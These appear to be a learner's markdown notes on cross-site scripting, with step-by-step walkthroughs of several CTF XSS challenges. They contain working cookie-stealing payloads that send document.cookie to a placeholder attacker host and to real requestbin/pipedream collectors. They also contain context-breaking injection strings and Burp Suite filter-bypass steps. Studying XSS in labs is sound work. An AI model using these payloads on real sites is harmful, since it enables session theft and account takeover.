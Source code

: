 # XSS
* Cross-site scripting (XSS) is a web security vulnerability that allows attackers to inject malicious code into a user's browser.

## Part 1. Report
 
## Part 2. XSS
- Working on Web Browser: JavaScript
- Working location: victim's web browser

1. Stored XSS -> Save in the server
2. Reflected XSS -> rebound from Server
3. XSS, CSRF
4. Steal cookie by using JavaScript

```javascript
var cookieData = document.cookie;
var i = new Image();
  i.src = "HTTP://normaltic.attacker.com/
  i.src = "HTTP://normaltic.attacker.com/?cookie=" + "Secret_data";
  i.src = "HTTP://normaltic.attacker.com/?cookie=" + cookieData;
```

5. VPS or requestbin - https://public.requestbin.com/r/

6. XSS
   [Common XSS Errors[(https://github.com/imnarendrabhati/testing-new/blob/master/%3CIMG%20SRC%3DX%20ONERROR:JAVASCRIPT:ALERT(1)%3B%3E)

1) CTF XSS 1 (https://portswigger.net/web-security/cross-site-scripting/contexts)
- Error = Input script
- Annoucement and create content "<script>alert(1)</script>" on the subject.
- When you click it, the alert shows up.
- Instead of alert(1), put var i = new Image(); i.src = "HTTP://en7riltg206nc.x.pipedream.net/getCrred.php?cookie=" + cookieData;
- In BurpSuite, instead of alert(1), put the below code
```javascript
var cookieData = document.cookie; 
var i = new Image();
i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;
```

- On the admin visit url = type the address made by the attack post
- Check the flag on https://public.requestbin.com/

7. DOM Based XSS
- Create a tag by using JavaScript
- Create and execute a new script from a browser
- an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim's browser used by the original client-side script,
- document.write = "";
- innerHTML

## Part 3. Assignment
1. Review
2. XSS CTF <br>
⋅⋅a. CTF XSS 2
  - Error = Showing the direct sentence on HTML = <script>alert('x에 대한 검색 결과가 존재하지 않습니다.');</script>
  - Check Attack statement on search bar = xss');alert(1);var i=('
  - Check Attack => xss');var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;var i=('
  - Send to repeater the POST URL to change GET method
  - Replace the Repeater on Burp Suite, working on the GET method instead of the POST method because the host gets the access
  - The GET URL inputs the admin visit URL bar
  - Check the flag on https://public.requestbin.com/

⋅⋅b. CTF XSS 3
  - Error = Showing ID on the URL on the personal information 
  - Check the attack possibility to change the ID on Burp Suite Request
  - Check the attack statement => aaa"/><script>alert(1)</script>
  - Check the attack => aaa"/><script>var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;</script>
  - Copy GET URL and input the URL on the admin visit bar
  - Check the flag on https://public.requestbin.com/

⋅⋅c. CTF XSS 4
  - Error = In the board, it is possible to use special characters (<'">).
  - Check the attack possibility of using an attack statement on the board. => <script>alert(1)</script>
  - Filtering "script" and "alert", so using another attack statement => <img src=x onerror=confirm(1)> 
  - Check the attack => <img src="https://x" onerror="location.href='http://enjt04rx79at.x.pipedream.net/?cookie=' + document.cookie;">
  - Block the long subject
  - Check the attack on the content box
  - Copy URL and input the URL on the admin visit bar
  - Check the flag on https://public.requestbin.com/

⋅⋅d. CTF XSS 5
  - Error = In the board, it is possible to use special characters (<'">), but it converts &lt;
  - Check the attack possibility of using an attack statement on the board => <script>alert(1)</script>
  - Using the Burp Suite, the website should be intercepted step by step
  - Create a new post and forward
  - Check the attack statement => <script>var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;</script>
  - During the intercept, change the filtered attack statement
  - Open the new post and copy the URL and input the URL on the admin visit bar
  - Check the flag on https://public.requestbin.com/

⋅⋅e. CTF XSS 6
  - Error = When you log in wrong, the alert pops up.
  - Check the attack possibility in the Burp Suite
  - The POST proxy sends to Repeater and changes the method to GET
  - Check special characters and it works
  - Check the attack statement => +]');alert(1)//
  - Check the attack => +]');location.href='http://enjt04rx79at.x.pipedream.net/?cookie='%2bdocument.cookie;//
  - Copy URL and input the URL on the admin visit bar
  - Check the flag on https://public.requestbin.com/

⋅⋅f. CTF XSS Challenge 
